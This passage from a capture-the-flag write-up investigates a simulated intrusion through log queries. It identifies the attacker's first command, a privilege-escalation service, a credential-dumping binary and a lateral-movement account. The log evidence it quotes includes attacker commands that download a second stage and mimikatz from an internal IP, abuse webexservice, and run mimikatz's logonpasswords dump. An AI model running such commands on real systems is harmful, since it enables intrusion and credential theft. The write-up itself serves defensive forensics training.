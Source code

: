 (answer is a single word)
2.9.4.2. Solution
Knowing the PID of cookie_recipe.exe and assuming that every command execution spawns a new process, it was possible to filter on new process creations with parent 5256:
	EventID:1 AND ParentProcessId:5256
After sorting by timestamp, the first result is the execution of C:\Windows\system32\cmd.exe /c "whoami ".
2.9.4.3. Flag
The flag is: whoami.
2.9.4.4. Afterwords
Since all commands (sysmon event id 1) by the attacker are initially running through the cookie_recipe.exe binary, we can set its full-path as our ParentProcessImage to find child processes it creates sorting on timestamp.
2.9.5. Question #4
2.9.5.1. Description
What is the one-word service name the attacker used to escalate privileges?
2.9.5.2. Solution
With results from previous query it was possible to see the attacker downloaded a second stage with C:\Windows\system32\cmd.exe /c "Invoke-WebRequest -Uri http://192.168.247.175/cookie_recipe2.exe -OutFile cookie_recipe2.exe " and then execute it with C:\Windows\system32\cmd.exe /c "sc start webexservice a software-update 1 wmic process call create "cmd.exe /c C:\Users\minty\Downloads\cookie_recipe2.exe" ".
2.9.5.3. Flag
The flag is: webexservice.
2.9.5.4. Afterwords
Continuing on using the cookie_reciper.exe binary as our ParentProcessImage, we should see some more commands later on related to a service.
2.9.6. Question #5
2.9.6.1. Description
What is the file-path + filename of the binary ran by the attacker to dump credentials?
2.9.6.2. Solution
Below search pivots on the cookie_recipe2.exe file:
ParentProcessImage:"C:\\Users\\minty\\Downloads\\cookie_recipe2.exe"
One of the logs highlights the download of mimikatz with command C:\Windows\system32\cmd.exe /c "Invoke-WebRequest -Uri http://192.168.247.175/mimikatz.exe -OutFile C:\cookie.exe ".
Below search focuses on C:\cookie.exe related executions:
ProcessImage:"C:\\cookie.exe"
It is possible to notice its execution as "C:\cookie.exe" privilege::debug sekurlsa::logonpasswords exit thus recognizing common mimkatz parameters.
2.9.6.3. Flag
The flag is: C:\cookie.exe.
2.9.6.4. Afterwords
The attacker elevates privileges using the vulnerable webexservice to run a file called cookie_recipe2.exe. Let's use this binary path in our ParentProcessImage search.
2.9.7. Question #6
2.9.7.1. Description
The attacker pivoted to another workstation using credentials gained from Minty's computer. Which account name was used to pivot to another machine?
2.9.7.2. Solution
Using below search it is possible to verify to which IPs the compromised machine connected to:
EventID:3 AND SourceHostname:DEFANELF
With this search it is possible to see that it connected to ports 135 (RPC), 445 (SMB), 3389 (RDP) and 49672. As RDP and SMB are protocols commonly used during lateral movements but RDP leaves traces in the WinEvent logs, I started pivoting from it with search:
EventID:4624 AND SourceHostName:DEFANELF
The search returned 14 messages, all mentioning alabaster as AccountName.
2.9.7.3. Flag
The flag is: alabaster.
2.9.7.4. Afterwords
Windows Event Id 4624 is generated when a user network logon occurs successfully. We can also filter on the attacker's IP using SourceNetworkAddress. 
2.9.8. Question #7
2.9.8.1. Description
What is the time ( HH:MM:SS ) the attacker makes a Remote Desktop connection to another machine?